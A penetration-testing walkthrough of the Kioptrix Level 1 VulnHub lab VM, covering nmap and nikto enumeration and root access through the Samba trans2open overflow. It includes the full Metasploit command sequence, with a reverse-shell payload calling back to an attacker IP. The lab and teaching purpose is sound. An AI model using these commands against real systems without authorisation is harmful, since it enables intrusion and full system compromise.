










Kioptrix Level 1 Walkthrough
Walkthrough of Kioptrix Level 1 VM penetration test, covering reconnaissance, vulnerability identification, and exploitation via Samba trans2open overflow.
Introduction
Kioptrix Level 1 is a beginner-friendly vulnerable virtual machine on VulnHub intended for practicing penetration-testing fundamentals. This walkthrough documents enumeration, vulnerability identification, and obtaining root access.

Reconnaissance
Network discovery
Tools used: netdiscover, arp-scan.
- Target discovered at: 192.168.56.110.
- MAC address: 08:00:27:39:c3:0d (VirtualBox)


Port scanning
Performed a full Nmap scan to enumerate services and detect the OS:
nmap -sS -sV -O 192.168.56.110 -oN kioptrix.txtOpen ports (summary)
- 22/tcp — OpenSSH 2.9p2 (protocol 1.99)
- 80/tcp — Apache 1.3.20 (Red Hat Linux)
- 111/tcp — rpcbind
- 139/tcp — Samba (smbd)
- 443/tcp — Apache/SSL
- 32768/tcp — status

Vulnerability analysis
Web service enumeration
Apache 1.3.20 with mod_ssl/2.8.4 and OpenSSL/0.9.6b — all significantly out of date. nikto flagged multiple issues:
- Outdated components
- TRACE method enabled (possible XST)
- Directory listings exposed
- Indicators of a PHP file manager/backdoor


# Example nikto command used
nikto -h http://192.168.56.110
Samba service
Samba reported as 2.2.x — this version is vulnerable to the trans2open buffer overflow (CVE-2003-0201), making it a high-priority target.
Exploitation
Metasploit approach (trans2open)
Used Metasploit to search and execute a Samba trans2open exploit:
msfconsole
search trans2open
use exploit/linux/samba/trans2open
set RHOSTS 192.168.56.110
set payload linux/x86/shell_reverse_tcp
set LHOST 192.168.56.102
set LPORT 4444
run

Result: The exploit successfully opened reverse shells (sessions observed on ports 32773–32776) and provided a root shell.


Post-exploitation
After gaining a shell, verified root privileges and enumerated the system:
whoami # => root
hostname # => kioptrix.level1
Found a congratulations message in the system mail for root:

Captured the flag and evidence:
.png)
Key findings
Critical vulnerabilities
- Samba trans2open overflow — decisive exploit vector.
- Outdated software stack — Apache 1.3.20, OpenSSL 0.9.6b.
- Weak service configuration — TRACE enabled, directory listings, and exposed backdoor-like files.
Attack chain
- Network discovery → identify target IP.
- Port scanning → enumerate services.
- Service enumeration → identify vulnerable Samba.
- Exploitation → execute trans2open via Metasploit.
- Reverse shell → root access.
Lessons learned
- Regular patching and updates are critical — a single unpatched service can lead to full system compromise.
- Legacy Samba versions are high-risk and have been exploited in the wild for years.
- Comprehensive reconnaissance and automated tooling (Nmap, Nikto, Metasploit) speed up discovery and exploitation in CTF/lab environments.
Conclusion
Kioptrix Level 1 is an excellent introductory exercise demonstrating how one vulnerable service (Samba) can compromise an entire system. This walkthrough documented a Metasploit-based exploitation path; alternative manual exploitation or deeper post-exploitation enumeration are great follow-ups for learning.
Ethical note: Use these techniques only on systems you own or are authorized to test.
References & Resources
- Kioptrix VM (VulnHub)
- Samba trans2open (CVE-2003-0201)
- Metasploit Framework
- Nmap, Nikto